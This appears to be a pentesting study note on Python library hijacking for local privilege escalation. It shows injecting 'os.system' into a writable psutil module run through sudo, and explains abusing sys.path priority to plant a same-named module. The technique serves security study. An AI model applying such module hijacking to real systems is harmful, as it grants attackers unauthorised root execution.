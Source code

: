 ```shell
```
We can write to the python module
```shell
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

```python
def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret
```

```shell
sudo /usr/bin/python3 ./mem_status.py
```

### Library Path 
* Each version of python has a specified order in which libraries are searched and imported from. 
* The order in which they are imported is from a priority system. Paths higher on the list take priority of ones lower.
```shell
python3 -c 'import sys; print("\n".join(sys.path))'
```
```output
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```
#### Requirements
1. The module that is imported by the script is located under one of the lower priority paths listed via the `PYTHONPATH` variable. 
2. Must have write permissions to one of the paths having a higher priority on the list. 
##### Aim
if the imported module is located in a lower path on the list and a higher priority path is editable by out user, we can create a module ourselves with the same name and include our own desired functions. 

#### Example
Show where PSUTIL is installed
```shell
pip3 show psutil
```
```output
Location: /usr/local/lib/python3.8/dist-packages
```
See where `PYTHONPATH` install is 
```shell
python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
```